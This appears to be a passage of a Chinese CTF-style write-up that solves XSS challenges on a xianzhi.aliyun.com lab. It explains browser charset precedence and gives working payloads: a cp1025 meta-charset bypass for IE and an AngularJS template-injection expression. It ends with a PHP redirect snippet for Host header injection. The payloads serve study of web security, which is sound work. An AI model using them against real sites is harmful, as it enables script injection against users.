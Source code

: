 关于这个也找到一篇文章：https://www.ibm.com/developerworks/cn/web/wa-lo-ecoding-response-problem/index.html

上面的由于两端的差别导致的乱码，从xss角度出发，我们也就只能分析客户端 所以问题来了：http的响应头的编码、页面的meta等都可以设置头的东西，那么具体是什么时候具体对应的会起作用?

先来了解一下浏览器的一些解析过程.https://dev.w3.org/html5/spec-LC/parsing.html

第一个是ua里面已经确认指明了才会选择 第二个是http响应头大编码设置，也就是Content-Type，当它设置了charset并且支持这个charset，也就是不为空并且字符集是存在的，题目的编码是不存在的编码GB3212，所以符合 第三个就是如果meta标签设置编码是在html前1024个字节的时候，浏览器会根据这个编码去解析，这个是浏览器直接解析，完全是不受plaintext影响

所以第一步就是利用meta来改变页面的字符集.

第二步，需要做的就是去利用字符集之间的差异，寻找异类的字符集，

我们平常见到<的编码是\x3C，但是这个是UTF-8的，在其他编码的字符集中就有可能不是这个结果了，这里使用的是cp1025编码

附上一点cp1025的编码

```
<  %4c
>  %6e
/  %61
(  %4d
)  %5d
=  %7e
;  %5e
'  %7d
```

IE payload：
```
http://xianzhi.aliyun.com/xss9.php?text=<meta http-equiv="content-Type" content="text/html; charset=cp1025">%4c%89%94%87%01%a2%99%83%7e%f1%01%96%95%85%99%99%96%99%7e%81%93%85%99%a3%4d%f1%5d%0b%6e
```

#### [xss10.php](./xss10.php)

对框架不是很熟悉，提示是Client Side Template Injection，翻M师傅推特找到一个利用

FF && Chrome Exp

```
{{[].pop.constructor('alert()')()}}

http://xianzhi.aliyun.com/xss10.php?username=%7B%7B%5B%5D.pop.constructor(%27alert(1)%27)()%7D%7D
```

#### [xss11.js](./xss11.js)

HOST头注入，这里又需要用到IE下一个奇怪的姿势.

https://labs.detectify.com/2016/10/24/combining-host-header-injection-and-lax-host-parsing-serving-malicious-data/

所以可以构造

11.php

```php
<?php
header('HTTP/1.1 307 Redirect');
header('Location: '.$_GET['u']);
```
